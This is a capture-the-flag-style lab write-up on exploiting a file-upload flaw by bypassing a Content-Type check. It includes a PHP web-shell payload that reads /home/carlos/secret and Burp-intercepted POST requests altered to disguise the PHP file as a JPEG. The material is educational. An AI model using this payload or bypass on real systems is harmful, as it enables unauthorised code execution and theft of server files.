







# Login

We can log in to your own account using the following credentials: 
```bash
wiener:peter
```
### We know this lab contains image upload function vunerablity. So lets start looking for it.

# Information gathering



We can upload the image file under Avatar lable.



From the image we know there is no file restiction to upload. Now we have to create an executable file to execute via web shell.

# Exploit

We have to create a php executable file which contains a script for fetching the contents of (/home/carlos/secret).

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
or
```bash 
<?php
$sus = file_get_contents('/home/carlos/secret');
echo $sus
>
```



By uploading the php file we got an error that only jpeg and png file extentions are allowed.

So now we have to forward the php file as image file extention. For that we are using burpsuite.



Now using Burp Suite Intercept we are intercepting the upload POST request. From the image we can know the Content-Disposition, Content-Type.

```bash
20. -----------------------------1502193731177638880733178657
21. Content-Disposition: form-data; name="avatar"; filename="sus.php"
22. Content-Type: application/x-php
23.
24. <?php echo file_get_contents('/home/carlos/secret'); ?>
```
From the Intercept we have to edit the Content-Type Header of the uploading file. And we have to forward it. In order to do that we have to edit the POST request.

```bash
20. -----------------------------1502193731177638880733178657
21. Content-Disposition: form-data; name="avatar"; filename="sus.php"
22. Content-Type: image/jpeg
23.
24. <?php echo file_get_contents('/home/carlos/secret'); ?>
```

We have edited the POST request. Now Forward the request.




Successfully we uploaded the php file.Now we have to retive the output of the executable file.

From the above image we can know our file has been uploaded to files/avatars/. Let's redirect to the directory in URL.



We got the Solution.

# Conclution
From this lab we gained the basic idea of how to Content type restriction bypass file upload function vunerablity.